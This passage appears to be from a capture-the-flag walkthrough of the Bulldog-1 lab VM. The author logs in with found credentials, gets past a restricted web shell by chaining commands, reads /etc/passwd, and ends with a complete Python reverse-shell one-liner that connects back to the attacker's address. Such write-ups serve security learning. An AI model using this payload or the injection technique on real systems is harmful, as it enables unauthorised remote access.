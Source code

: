 Well, seems that I can't do anything. I'm in but, nothing to see here! What about sarah:bulldoglover?

![Log in using sarah]({{site.baseurl}}/assets/bulldog-1/19.png)

Nothing... Hold on a sec. In the /dev directory there's a shell that I can't access if I'm not logged in. What If I log in and I access the page?

![Access web shell]({{site.baseurl}}/assets/bulldog-1/20.png)

Yes! I am now in the world's most secure webshell.

Apparently, I can run only run a few controlled commands, like 'ls' for instance.

![Ls command]({{site.baseurl}}/assets/bulldog-1/21.png)

What if I inject some commands?

![Command injection]({{site.baseurl}}/assets/bulldog-1/22.png)

Nope. I was "caught". What about the command cd?

![Caught]({{site.baseurl}}/assets/bulldog-1/23.png)

Nope. Also, "caught".

Some commands work well, but the cat command sometimes gives me a 500 server error.

![500 error]({{site.baseurl}}/assets/bulldog-1/24.png)

I know that it is running ssh on port 23. Let's try to log in with the users we just got... Nope. Neither using "nick" or "sarah" will give me access. The good thing though, is that I have access to the command "cat" in the webshell. Maybe I can check the list of users using "cat /etc/passwd":

![Check users list]({{site.baseurl}}/assets/bulldog-1/25.png)

Ok. Now I know that there are two important users: bulldogadmin and django. None of those, however, accept bulldog or bulldoglover as the password when logging via ssh.

After trying to take advantage of this shell, I realize that if I use two commands in the same line... it doesn't complain! for instance:

![Duplicate commands]({{site.baseurl}}/assets/bulldog-1/26.png)

Here, I used a command that I wasn't suppose to run...It'll be great if I can give myself access to a shell, and connect from my attacking machine. I'll explore this a bit further. 

After trying to get a shell directly with Netcat, the server crashes. I can't get a reverse shell directly, but I can upload a file to the server and execute some script that will eventually give me a shell.

I create on my local computer a file called file.py that contains the following code:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
